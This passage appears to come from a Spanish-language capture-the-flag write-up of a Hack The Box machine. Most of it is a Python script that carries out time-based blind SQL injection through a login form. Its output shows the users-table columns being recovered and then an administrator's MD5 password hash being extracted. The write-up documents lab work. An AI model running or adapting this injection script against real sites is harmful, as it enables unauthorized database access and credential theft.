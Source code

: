 ```null

    s = requests.session()
    s.verify = False

    column = ""

    for clms in range(1, 10):

        for position in range(1, 10):

            for character in characters:

                post_data = {
                    'email': "admin@europacorp.htb' and if(substr((select group_concat(column_name) from information_schema.columns where table_schema=\"admin\" and table_name=\"users\"),%d,%d)='%s',sleep(%d),1)-- -" % (position, clms, character, sqtime),
                    'password': 'test'

                }

                p1.status(post_data['email'])

                first_time = time.time()
                r = s.post(main_url, data=post_data)
                second_time = time.time()

                if second_time - first_time > sqtime:
                    column += character
                    p2.status(column)
                    break

        column += ", "

    end_time = time.time()

if __name__ == '__main__':
    MakeRequest()
```

```null
python3 sqli.py
[▖] SQLi: admin@europacorp.htb' and if(substr((select group_concat(column_name) from information_schema.columns where table_schema="admin" and table_name="users"),8,2)='x',sleep(5),1)-- -
[q] columns: id, username, email, password, active
```

Obtengo un hash en MD5

```null
python3 sqli.py
[......\.] SQLi: admin@europacorp.htb' and if(substr((select group_concat(username,0x3a,password) from users),49,1)='g',sleep(5),1)-- -
[↗] Data: administrator2b6d315337f18617ba18922c0b9597ff
```
